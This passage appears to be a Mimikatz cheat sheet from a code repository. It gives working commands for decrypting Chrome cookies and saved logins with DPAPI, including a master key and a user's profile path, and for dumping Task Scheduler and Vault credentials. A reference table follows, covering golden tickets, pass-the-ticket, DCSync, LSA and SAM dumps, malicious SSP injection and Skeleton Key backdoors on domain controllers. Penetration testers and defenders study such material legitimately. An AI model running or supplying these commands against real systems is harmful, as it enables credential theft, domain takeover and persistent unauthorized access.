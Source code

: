 ### Chrome Cookies & Credential

```powershell
# Saved Cookies
dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Cookies" /unprotect
dpapi::chrome /in:"C:\Users\kbell\AppData\Local\Google\Chrome\User Data\Default\Cookies" /masterkey:9a6f199e3d2e698ce78fdeeefadc85c527c43b4e3c5518c54e95718842829b12912567ca0713c4bd0cf74743c81c1d32bbf10020c9d72d58c99e731814e4155b

# Saved Credential in Chrome
dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Login Data" /unprotect
```

### Task Scheduled credentials

```powershell
mimikatz(commandline) # vault::cred /patch
TargetName : Domain:batch=TaskScheduler:Task:{CF3ABC3E-4B17-ABCD-0003-A1BA192CDD0B} / <NULL>
UserName   : DOMAIN\user
Comment    : <NULL>
Type       : 2 - domain_password
Persist    : 2 - local_machine
Flags      : 00004004
Credential : XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
Attributes : 0
```

### Vault

```powershell
vault::cred /in:C:\Users\demo\AppData\Local\Microsoft\Vault\"
```

## Commands list

| Command |Definition|
|:----------------:|:---------------|
| CRYPTO::Certificates|list/export certificates|
|CRYPTO::Certificates | list/export certificates|
|KERBEROS::Golden | create golden/silver/trust tickets|
|KERBEROS::List | list all user tickets (TGT and TGS) in user memory. No special privileges required since it only displays the current user’s tickets.Similar to functionality of “klist”.|
|KERBEROS::PTT | pass the ticket. Typically used to inject a stolen or forged Kerberos ticket (golden/silver/trust).|
|LSADUMP::DCSync | ask a DC to synchronize an object (get password data for account). No need to run code on DC.|
|LSADUMP::LSA | Ask LSA Server to retrieve SAM/AD enterprise (normal, patch on the fly or inject). Use to dump all Active Directory domain credentials from a Domain Controller or lsass.dmp dump file. Also used to get specific account credential such as krbtgt with the parameter /name: “/name:krbtgt”|
|LSADUMP::SAM | get the SysKey to decrypt SAM entries (from registry or hive). The SAM option connects to the local Security Account Manager (SAM) database and dumps credentials for local accounts. This is used to dump all local credentials on a Windows computer.|
|LSADUMP::Trust | Ask LSA Server to retrieve Trust Auth Information (normal or patch on the fly). Dumps trust keys (passwords) for all associated trusts (domain/forest).|
|MISC::AddSid | Add to SIDHistory to user account. The first value is the target account and the second value is the account/group name(s) (or SID). Moved to SID:modify as of May 6th, 2016.|
|MISC::MemSSP | Inject a malicious Windows SSP to log locally authenticated credentials.|
|MISC::Skeleton | Inject Skeleton Key into LSASS process on Domain Controller. This enables all user authentication to the Skeleton Key patched DC to use a “master password” (aka Skeleton Keys) as well as their usual password.|
|PRIVILEGE::Debug | get debug rights (this or Local System rights is required for many Mimikatz commands).|
|SEKURLSA::Ekeys | list Kerberos encryption keys|
|SEKURLSA::Kerberos | List Kerberos credentials for all authenticated users (including services and computer account)|
|SEKURLSA::Krbtgt | get Domain Kerberos service account (KRBTGT)password data|